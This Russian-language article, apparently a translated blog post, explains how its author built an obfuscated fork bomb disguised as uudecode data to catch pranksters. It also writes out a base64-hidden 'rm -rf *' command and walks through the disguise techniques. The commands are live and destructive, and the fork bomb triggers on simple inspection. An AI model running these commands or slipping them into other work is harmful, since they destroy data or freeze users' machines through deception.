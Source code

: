 > **Сразу предупреждаю**: не копируйте примеры кода из этой статьи и не запускайте их в своей командной оболочке.

Есть люди, которые развлекают себя жестокими шутками над новичками, обманом подводя их к запуску разрушительных инструкций в командной оболочке.

![](https://habrastorage.org/r/w1560/webt/qq/fs/dy/qqfsdyqkzuksp0s50x2zhogwpue.jpeg)

[](CUT)

Часто это принимает форму грубо замаскированных команд, вроде той, что показана ниже. Её запуск приведёт к выполнению в текущей директории команды rm -rf *, которая всё удалит. Вот эта команда:

```
$(echo cm0gLXJmICoK | base64 -d)
```

Много лет назад я наткнулся на людей, которые играли в такие игры, и решил их проучить.

Я не докатился ещё до того, чтобы обманом заставлять кого-то удалять его файлы. Но мне более чем хотелось помочь доморощенным хакерам самим себя подорвать на форк-бомбе.

Я так спроектировал форк-бомбу, что даже когда некто знает о том, что перед ним — деструктивная команда, он её, всё равно, запустит! Я понимаю, что и у вас может возникнуть желание это запустить, но, всё равно, привожу тут код моей бомбы:

```
eval $(echo "I<RA('1E<W3t`rYWdl&r()(Y29j&r{,3Rl7Ig}&r{,T31wo});r`26<F]F;==" | uudecode)
```

Выглядит это всё как очередная грубо замаскированная опасная команда, но, на самом деле, это не так. Я не пытаюсь играть на знании того факта, что доверчивые новички часто запускают команды, которые им непонятны.

Вместо этого моё изобретение направлено на людей, которые знакомы с подобными фокусами, на тех, кто знает, что эта команда должна превратиться в нечто разрушительное. Здесь я спекулирую на любопытстве таких людей, и на том, что им нравятся инструменты, способные навлечь на кого-то неприятности.

Такой человек, когда ему попадётся команда, о которой мы говорили в самом начале ($(echo cm0gLXJmICoK | base64 -d)), решит исследовать её и убрать из неё конструкцию $(..) для того чтобы узнать о том, чем же именно эта команда поразит жертву. Получится у него следующее:

```
$ echo cm0gLXJmICoK | base64 -d
rm -rf *
```

А что если он сделает то же самое с командой ```eval $(echo «I<RA('1E<W3t`rYWdl&r()(Y29j&r{,3Rl7Ig}&r{,T31wo});r`26<F]F;==» | uudecode)```, надеясь узреть то страшное, что случится с новичком, которому хватило глупости её запустить?

```
echo "I<RA('1E<W3t`rYWdl&r()(Y29j&r{,3Rl7Ig}&r{,T31wo});r`26<F]F;==" | uudecode
```

Тот, кто запустит такую команду, внезапно осознает, что его система работает всё медленнее и медленнее. А потом, когда она будет уже практически полностью обездвижена, система уйдёт в вынужденную перезагрузку. Тогда окажется, что именно этот любитель гадостей и был всё время одним из тех новичков, над которыми издеваются такие вот «любители».

Как видите, именно команда eval (…драматическая пауза…) сыграла роль обманки.

На самом деле, и uudecode, и echo и $(..) — все эти конструкции играют свою роль в моём представлении. Они призваны отвлекать внимание, не неся никакой функциональной нагрузки.

Для того чтобы бомба взорвалась, не нужно ничего декодировать, выполнять или вычислять. Вся сила моей бомбы основана на простом раскрытии следующего аргумента в любом контексте:

```
"I<RA('1E<W3t`rYWdl&r()(Y29j&r{,3Rl7Ig}&r{,T31wo});r`26<F]F;=="
```

И даже большая часть этой строки присутствует в ней только для вида, для того чтобы всё это было больше похоже на UUE-данные. Вот — та же строка, «маскировочные» символы которой заменены на знаки подчёркивания:

```
"____________`_____&r()(____&r{,______}&r{,_____});r`_________"
```

А вот — то же самое, но записанное немного более понятно:
```
" `r() ( r & r ); r` "
```

Перед нами — самая обычная форк-бомба, работающая благодаря механизму раскрытия команд.

Я создал эту ловушку не сразу, постепенно доводя её до состояния, которое меня устроило.

Вот её первый вариант:
```
eval $(echo 'a2Vrf3xvcml'\ZW%3t`r()(r|r);r`2'6a2VrZQo=' | base64 -d)
```

В целом это — то же самое, но тут имеются несколько проблем:
* Многие довольно хорошо знакомы с кодировкой base64. Вполне очевидно то, что данные, которые тут имеются, представлены не в этой кодировке.
* Расстановка кавычек недвусмысленно указывает на то, где именно начинается и заканчивается строка, ради которой и создавалась вся эта конструкция.
* Форк-бомба, представленная конструкцией `r()(r|r);r`, прямо-таки бросается в глаза.

В кодировке base64 используются почти исключительно алфавитно-цифровые символы, например — bW9yZSBnYXJiYWdlIGhlcmUK, а UUE-данные (это — если кто-то вообще может вспомнить то, как они выглядят) представляют собой набор самых разных символов, среди которых можно хорошо спрятать встроенный в них shell-код: ```1<V]M92!G87)B86=E(&AE<F4` ```. Я, используя соответствующие символы, разбил на части длинные бредовые строки, выглядящие как данные в кодировке base64.

Если говорить о кавычках, то я поместил в строку простые двойные кавычки, надеясь, что никто не обратит внимание на подозрительные символы, помещённые в интерполированную строку.

А вот в том, что касается кода самой бомбы, мне хотелось найти способ внести в строку больше бессмыслицы, но при этом не добавлять в неё пробелов, которые привлекают внимание. Удлинение строки r позволило бы добиться желаемого, но тогда заметным бы стало повторение символов.

Вариант улучшения первоначального кода, на котором я остановился, заключался в использовании механизма раскрытия скобок. Так, foo.{jpg,png} раскрывается в foo.jpg foo.png, а r{,foo} раскрывается в r foo. Такая конструкция позволяет вызвать r с аргументом, игнорируемым функцией.

Вторая версия моего проекта выглядела так:
```
eval $(echo "I<RA('1E<W3t`p&r()(rofl&r{,3Rl7Ig}&r{,T31wo});r`26<F]F;==" | uudecode)
```

В основе этого кода лежала идея, в соответствии с которой команда rofl будет выполняться для каждого форка, чтобы было ещё веселее, заполняя экран сообщениями rofl: command not found, но я понял, что наличие в коде некоего заметного слова может привлечь внимание жертвы и привести к дальнейшим исследованиям кода бомбы.

В итоге я пришёл к финальной версии моего кода, который оказался достаточно эффективным. Несколько человек, занимающихся «охотой» на новичков, смущённо признались в том, что попались на мою удочку.

Я, в сущности, обо всём этом забыл, но вот другие люди, очевидно, не забыли о моей форк-бомбе. Примерно через год после её создания вопрос о ней всплыл на SuperUser. Там, кстати, её код [проанализировали](https://superuser.com/questions/996795/how-and-why-is-this-string-of-text-a-fork-bomb) ещё лучше, чем это сделал я. Ну а теперь вы, если тоже интересовались этим кодом, знаете о том, откуда он взялся.

Сталкивались ли вы с форк-бомбами?
